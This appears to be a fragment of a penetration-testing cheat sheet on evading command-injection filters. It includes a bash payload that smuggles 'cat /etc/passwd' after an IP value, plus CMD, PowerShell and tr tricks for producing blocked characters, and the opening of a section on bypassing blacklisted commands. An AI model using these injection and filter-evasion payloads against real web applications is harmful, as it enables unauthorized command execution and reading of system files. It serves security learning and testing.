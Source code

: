 **Payload example:**
```bash
127.0.0.1${LS_COLORS:10:1}${IFS}cat${IFS}/etc/passwd
```

---

## 🪟 Windows CMD

**Substrings from env vars:**
- Syntax: `%VAR:~start,end%`
- Get `\` from `%HOMEPATH%`:
  ```cmd
  echo %HOMEPATH:~6,-11%  # returns \
  ```

---

## ⚡ PowerShell

**Index env vars as arrays:**
- Get `\`:
  ```powershell
  $env:HOMEPATH[0]
  ```
- List all env vars:
  ```powershell
  Get-ChildItem Env:
  ```

---

## 🔁 Character Shifting (Linux)

**Use `tr` to shift ASCII chars:**
- Example: `[` (ASCII 91) → `\` (ASCII 92)
  ```bash
  echo $(tr '!-}' '"-~'<<<[)  # returns \
  ```
- Find needed ASCII codes with:
  ```bash
  man ascii
  ```

---
---
# Bypassing Blacklisted Commands - Cheat Sheet

## Basic Concept
When a web app blacklists commands (e.g., whoami, cat), we can bypass it by obfuscating the command while keeping its functionality.

---